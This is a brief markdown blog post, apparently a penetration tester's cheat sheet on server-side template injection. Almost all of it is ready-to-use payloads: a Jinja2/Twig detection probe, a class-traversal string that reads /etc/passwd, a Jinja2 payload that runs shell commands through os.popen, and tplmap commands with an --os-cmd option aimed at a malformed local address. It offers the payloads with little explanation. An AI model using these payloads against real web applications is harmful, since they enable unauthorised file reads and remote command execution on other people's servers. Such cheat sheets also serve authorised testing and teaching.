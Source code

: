 ```yaml
---
layout: post
title: "ssti"
keywords: "server side template injection"
---
```


#### Identification
[Methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology)
```
${7*7} != {{7*7}} = {{7*'7'}} = Jinja2/Twig
```

#### Read File (LFI)
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()('/etc/passwd').read()}} 
```

#### Remote Code Execution (RCE)
```
{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
```

#### TPLMap
```
./tplmap.py -u http://127.0.01/ -d 'name'
./tplmap.py -u http://127.0.01/ -d 'name' --os-cmd 'cat /etc/passwd'
```